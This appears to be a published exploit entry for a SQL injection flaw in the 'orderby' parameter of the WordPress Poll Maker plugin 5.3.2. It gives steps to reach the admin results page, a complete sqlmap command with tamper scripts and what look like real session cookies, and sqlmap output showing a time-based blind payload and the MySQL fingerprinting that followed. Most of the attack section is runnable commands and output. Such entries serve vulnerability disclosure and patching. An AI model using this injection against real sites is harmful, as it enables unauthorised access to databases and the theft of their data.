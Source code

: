 ### Exploit Title: WordPress Poll Maker Plugin SQL Injection 
### Date: 2024-07-11
### Exploit Author: tmrswrr
### Category : Webapps
### Vendor: https://ays-pro.com/wordpress/poll-maker
### Version 5.3.2

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `Poll Maker`  > `Results` > https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc
     
3. Search for orderby parameter.

## SQLMAP COMMAND

python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=poll-maker-ays-results&orderby=id&order=desc" --cookie="wordpress_logged_in_55e28812cb0bc43705127d62a25df794=admin|1720624086|cQgkhpgoy0ZxhQSupSHRw7bo9mxcwEWyUp0VreNnZBK|d74e12a1cdecafc50c920c18d4711826598780dd360f3a637abcc68a6086f7a3; _wp_travel_engine_session=010869411d3c5e302ccf674d9a49d453||1720689253||1720688893; wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720860313|TGYBq5U4ro5vSY5QpssgjpPJi4EmsOJQqWjLKD77XaV|81237d448295de9d99b8560e6b6d9d8640f81c4dbb629e550e56860775baf0b3; wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720860313|TGYBq5U4ro5vSY5QpssgjpPJi4EmsOJQqWjLKD77XaV|d8d2e1da10a83ab054e39b8dfa5787c0dc2d586f364bcb584983b26efb857285; wordpress_test_cookie=WP Cookie check; wp-settings-1=editor=html; wp-settings-time-1=1720687513" --batch --dbms=mysql --threads=10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 

## RESULT

Parameter: orderby (GET)
    Type: time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: page=poll-maker-ays-results&orderby=id PROCEDURE ANALYSE(EXTRACTVALUE(3054,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x58655778))))),1)# wcUc&order=desc
    Vector: PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])))),1)
---

---
[08:03:59] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:03:59] [INFO] the back-end DBMS is MySQL
[08:03:59] [PAYLOAD] id/**/PrOCEdUrE/**/analySE(exTRActvALuE(6707,CoNcAT(0x5c,(iF((VeRSION()/**/LikE/**/0x254d61726961444225),BenChmaRk(5000000,MD5(0x6e454541)),6707)))),1)#/**/ZrRh
[08:03:59] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[08:04:01] [DEBUG] used the default behavior, running in batch mode
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)



